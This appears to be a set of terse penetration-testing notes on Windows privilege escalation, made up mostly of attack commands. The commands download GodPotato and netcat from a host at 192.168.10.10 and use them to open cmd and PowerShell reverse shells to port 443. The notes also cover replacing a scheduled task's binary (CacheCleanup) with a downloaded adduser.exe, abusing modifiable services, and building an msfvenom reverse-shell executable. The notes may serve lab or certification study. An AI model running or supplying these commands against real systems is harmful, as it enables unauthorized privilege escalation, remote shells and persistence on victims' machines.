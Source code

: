 ```
curl 192.168.10.10:8081/GodPotato-NET2.exe -o god.exe
```
```
 .\god.exe -cmd "cmd /c whoami"
```

```
 curl 192.168.10.10:8081/nc.exe -o nc.exe
```

```
 .\god.exe -cmd "cmd /c C:\xampp\htdocs\cms\files\nc.exe 192.168.10.10 443 -e cmd"
```

```
 .\god.exe -cmd "cmd /c C:\xampp\htdocs\cms\files\nc.exe 192.168.10.10 443 -e powershell"
```

### Task scduler/cron job

- ==find taskName: \Microsoft\CacheCleanup==

```
schtasks /query /fo LIST /v  
```

- user (I)(F) permission required)

```
icacls C:\Users\noman\Pictures\Cleanup.exe    
```

```
iwr -Uri http://192.168.10.10/adduser.exe -Outfile Cleanup.exe
```

```
move .\Pictures\BackendCacheCleanup.exe Cleanup.exe.bak
```

- waiting for the execution and put file just one before the folder

```
move .\Cleanup.exe .\Pictures\  
```

### Kernel Exploits

•         Biopath modifiable service

### Get-ModifiableServiceFile

•         Permission check and service stop / start check

•         Msfvenom create shell and upload ( curl, iwr, certutil)

•         icacls "C:\Program Files"

•         msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f exe -o rev.exe

•         del "C:\program files\noman\noman.exe"
